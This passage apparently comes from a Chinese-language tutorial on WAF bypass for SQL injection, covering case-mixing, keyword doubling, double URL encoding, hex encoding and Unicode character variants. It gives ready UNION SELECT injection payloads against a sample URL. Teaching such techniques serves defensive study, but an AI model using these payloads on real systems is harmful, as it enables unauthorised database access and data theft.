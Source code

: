 d)使用注释

e)等价函数与命令

f)特殊符号

g)HTTP参数控制

h)缓冲区溢出

i)整合绕过

 

## a) 大小写绕过

大小写绕过用于只针对小写或大写的关键字匹配技术，正则表达式/express/i 大小写不敏感即无法绕过，这是最简单的绕过技术

举例：z.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4 

示例场景可能的情况为filter的规则里有对大小写转换的处理，但不是每个关键字或每种情况都有处理

 

## b)替换关键字

这种情况下大小写转化无法绕过，而且正则表达式会替换或删除select、union这些关键字，如果只匹配一次就很容易绕过

举例：z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4

同样是很基础的技术，有些时候甚至构造得更复杂：SeLSeselectleCTecT，不建议对此抱太大期望

 

## c)使用编码

1.URL编码

在Chrome中输入一个连接，非保留字的字符浏览器会对其URL编码，如空格变为%20、单引号%27、左括号%28、右括号%29

普通的URL编码可能无法实现绕过，还存在一种情况URL编码只进行了一次过滤，可以用两次编码绕过：page.php?id=1%252f%252a*/UNION%252f%252a /SELECT

2.十六进制编码

举例：z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4…

　　`　SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))`

示例代码中，前者是对单个字符十六进制编码，后者则是对整个字符串编码，使用上来说较少见一点

3.Unicode编码

Unicode有所谓的标准编码和非标准编码，假设我们用的utf-8为标准编码，那么西欧语系所使用的就是非标准编码了

看一下常用的几个符号的一些Unicode编码：

单引号:   %u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7

空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
